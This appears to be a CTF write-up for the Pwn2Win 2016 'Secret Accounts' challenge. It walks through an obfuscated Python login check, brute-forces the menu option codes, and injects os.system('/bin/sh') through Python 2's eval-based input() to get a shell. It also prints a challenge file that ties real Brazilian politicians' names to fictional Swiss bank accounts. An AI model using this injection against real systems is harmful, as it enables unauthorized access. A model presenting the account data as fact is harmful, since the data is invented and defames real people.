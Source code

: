 +++
author = "rspkt"
categories = [ "writeups" ]
date = "2016-03-28T11:22:00+01:00"
title = "Pwn2Win CTF 2016 Secret Accounts (Py 80) Writeup"

+++

# Problem

> Description: Through many months of sniffing, we discovered a server running
a software which the Club uses to manage information about secret bank accounts
abroad. We even obtained its source code. We need to obtain access to the
system in order to discover the real name of the owner of the account
possessing the greater amount of money, in which bank it is, and the real
amount. As you might expect, it seems that the Club has hunkered down to assert
only authorized people, which really know what they are doing, are able to
operate this system and to interpret information provided by it. Rumors exist
that the Mentor himself manages it, as amazing as it may seem (he is old but
not deciduous!).

You will need good “python-fu” to win this challenge!

Submit the flag in the following format: CTF-BR{info1_info2_info3}.

Hint: Who is Fideleeto (Cuba!) in real life? Take this into account. :)

# Solution

The provided Python file was somewhat obfuscated with lots of unconventional
things like octal numbers, unnecessary arithmetics and so on. The first part of
the challenge was getting past the intial password prompt. The password check
algorithm was very convoluted, so we started off by translating octal to
to decimal, and simplified it:

~~~python
name=raw_input("Login name: ")
master=file("master.txt").readlines()
pwdmaster=file("passwd.txt").readlines()
master="".join(master).strip("\n")+"z"*72+"|"+"Z"*15
birthyear=master[9:13]
status=bool()

if ((name[:9] == master[:9]) and
	(name[9:13] == master[9:13]) and
	(len(name[13:]) == len(master[13:]))
	and (name[13:] > master[13:])) == False:
	status = False
else:
	status = True
~~~

So the password is 9 characters, appended by a birthyear and lots and lots of
lowercase and uppercase `Z`. There was a hint in the description referencing
Cuba. We used that to figure out the birthyear as the birthyear of Cuban leader
Fidel Castro. Since the assignment is following the theme of the CTF, the first
nine characters are likely Fideleeto. The remaining part of the password was
easy to construct. Just add the `Z`, and make sure the string input string is
"larger" than that in the `master` variable (we did this by changing one of the
uppercase `Z` to lowercase).

Once we got past the password, we were shown a prompt with different
account-related actions:

~~~
Available Options:

1 - View Owners of Accounts
2 - View Banks of Accounts
3 - Modify Sum
4 - Exit
~~~

Simply entering the number here is not sufficient, since the input numbers are
altered in the function `toption(opt)`. To figure out what input that gave what
option value, we just bruteforced it. We found the following mappings:

~~~
toption(110) = 1
toption(132) = 2
toption(144) = 3
toption(162) = 4
~~~

So now that we can provide the menu with real options, we need to enter another
password. Looking at the code, we can see that things get interesting here.
They are using the `input()` function. The Python documentation states this
this is `equivalent to eval(raw_input(prompt))`. That sounds very dangerous.
Let's see if it can give us shell ;)

We enter the following in the input prompt: `os.system('/bin/sh')`, and we're
provided a shell as expected. From there we can read the `infos` file,
containing bank account information:

~~~
{"Eduardo Cunha" :
	["Credit Suisse","5002005"],

"Dilma Roussef" :
	["Coop Bank","22582599"],

"Lul4 M0lusc0" :
	["Compagnie Bancaire Helvetique","25987369"],

"Delubio Soares" :
	["Compagnie Bancaire Helvetique","2100125"],

"Delcidio Amaral" :
	["Graubundner Kantonalbank","1780695"],

"Jose Dirceu" :
	["WIR Bank","8528314"],

"Renan Calheiros" :
	["Julius Baer", "11254255"]}
~~~

Here we can see that Lul4 M0lusc0 has the highest balance, so we enter his
information into the flag format, and get our points.
